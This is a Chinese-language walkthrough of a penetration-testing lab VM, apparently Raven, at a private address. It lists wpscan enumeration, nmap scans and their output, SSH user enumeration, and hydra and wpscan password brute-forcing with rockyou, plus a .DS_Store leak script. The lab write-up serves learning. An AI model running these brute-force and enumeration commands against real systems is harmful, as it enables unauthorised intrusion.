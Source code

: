 `wpscan --url "http://192.168.2.133/wordpress/" --wp-content-dir "/wordpress" --enumerate u --enumerate p`
这个版本比较高，参考`| 4.9.4 | 2018年2月8日 |`

## try1-hosts文件
测试弱口令时，遇到一个跳转
>http://192.168.2.133/wordpress/wp-login.php
http://raven.local/wordpress/wp-login.php
于是
`echo 192.168.2.133 raven.local >> /etc/hosts`

## try2-rpc不明服务
在遇到有不明端口的时候，我总是再全端口扫描一遍。
```
nmap -p- -Pn -T4 192.168.2.133 -vv

80/tcp    open  http    syn-ack ttl 64
111/tcp   open  rpcbind syn-ack ttl 64
43192/tcp open  unknown syn-ack ttl 64
```

```
nmap -sV -p 43192 192.168.2.133 --version-intensity 9
PORT      STATE SERVICE VERSION
43192/tcp open  status  1 (RPC #100024)
```
搜索了一遍，并不知道rpc有啥exp可用

## try3-ssh低版本用户枚举
之前我们在22ssh中，获得了name.txt

然后用burp intruder，又获得了两个存在的用户。
`michael、steven`
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/2.PNG)

`wpscan --url "http://192.168.2.133/wordpress/" --wp-content-dir "/wordpress" --passwords /usr/share/wordlists/rockyou.txt --usernames michael`
爆破这两个口令，然后继续探测

## try4-爆破root口令
`hydra -l root -P /usr/share/wordlists/rockyou.txt -I 192.168.2.133 ssh`

## try5-web敏感文件

#### .DS_Store文件泄露
python ds_store_exp.py http://192.168.2.133/.DS_Store
![23](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/23.PNG)

?如何提取出.DS_Store这个文件中的信息
